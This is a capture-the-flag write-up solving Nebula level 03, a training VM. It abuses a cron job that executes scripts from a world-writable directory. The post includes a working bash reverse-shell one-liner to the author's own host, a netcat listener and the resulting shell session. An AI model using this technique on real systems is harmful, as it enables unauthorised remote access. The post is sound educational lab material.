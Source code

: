 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 03'
date: 2018-07-16 15:48 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

### Source code

There is no source code available for this level

### Solution

Let’s jump in!

```terminal
level03@nebula:/home/flag03$ ls -al
total 6
drwxr-x--- 3 flag03 level03  103 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag03 flag03   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag03 flag03   675 May 18  2011 .profile
drwxrwxrwx 2 flag03 flag03     3 Aug 18  2012 writable.d
-rwxr-xr-x 1 flag03 flag03    98 Nov 20  2011 writable.sh
```

Interesting! Let’s get more info about the task.

```terminal
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

level03@nebula:/home/flag03$ cd ./writable.d/
level03@nebula:/home/flag03/writable.d$ ls -al
total 0
drwxrwxrwx 2 flag03 flag03    3 Aug 18  2012 .
drwxr-x--- 3 flag03 level03 103 Nov 20  2011 ..
level03@nebula:/home/flag03/writable.d$
```

We have been told from the beginning that there is a crontab that is called every couple of minutes. But what is a crontab?

Wikipedia: The software utility Cron is a time-based job scheduler in Unix-like computer operating systems. People who set up and maintain software environments use cron to schedule jobs (commands or shell scripts) to run periodically at fixed times, dates, or intervals. It typically automates system maintenance or administration—though its general-purpose nature makes it useful for things like downloading files from the Internet and downloading email at regular intervals.

We will assume that the crontab is executing the only script we have "writable.sh". Let’s look again at the code:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i") (1)
	rm -f "$i" (2)
done
```

Well, simple! At line (1) we are executing a bash script and at line (2) we are removing that bash script from "/home/flag03/writable.d/*". Fine, let’s get a shell!

```terminal
lucian@vm:~$ nc -nvlp 8080
Listening on [0.0.0.0] (family 0, port 8080
```

Now let’s prepare our script.

```terminal
level03@nebula:/home/flag03$ cd writable.d/
level03@nebula:/home/flag03/writable.d$ echo "bash -i >& /dev/tcp/192.168.0.104/8080 0>&1" > shell.sh
level03@nebula:/home/flag03/writable.d$ cat shell.sh
bash -i >& /dev/tcp/192.168.0.104/8080 0>&1
```

Done. Now we wait for like 5 minutes to in order to get the crontab execution.

```terminal
lucian@vm:~$ nc -nvlp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [192.168.0.100] port 8080 [tcp/*] accepted (family 2, sport 45702)
bash: no job control in this shell
flag03@nebula:~$ id
id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag
getflag
You have successfully executed getflag on a target account
flag03@nebula:~$
```

See you in the next tutorial!
